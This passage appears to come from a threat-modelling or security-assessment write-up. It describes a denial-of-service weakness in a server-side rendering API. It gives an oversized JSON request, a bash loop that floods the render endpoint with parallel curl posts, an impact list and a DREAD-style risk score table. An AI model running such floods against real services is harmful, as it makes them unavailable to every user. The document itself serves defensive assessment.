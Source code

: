 ```typescript
```

**Example Attack Requests:**
```http
POST /api/render HTTP/1.1
Content-Type: application/json

{
  "component": "data-visualizer",
  "props": {
    "dataset": [
      {"size": 1000000, "multiplier": 1000},
      {"size": 1000000, "multiplier": 1000},
      {"size": 1000000, "multiplier": 1000}
    ],
    "iterations": 999999999
  }
}
```

**Automated DoS Attack:**
```bash
# Flood server with resource-intensive requests
for i in {1..100}; do
  curl -X POST https://app.com/api/render \
    -H "Content-Type: application/json" \
    -d '{
      "component": "data-visualizer",
      "props": {
        "dataset": [{"size": 10000000, "multiplier": 1000}],
        "iterations": 100000
      }
    }' &
done
```

**Impact:**
- Server becomes unresponsive or crashes
- Service unavailability for all users
- Potential infrastructure costs from resource consumption
- Can affect entire application, not just SSR functionality

| Score | Rationale |
|-------|-----------|
| **Damage** | 8 | Server becomes unresponsive, affects all users |
| **Reproducibility** | 7.5 | Requires crafting specific resource-intensive inputs |
| **Exploitability** | 5 | Requires understanding of SSR resource consumption |
| **Affected Users** | 10 | All users of the SSR application |
| **Discoverability** | 8 | Resource usage patterns can be observed |
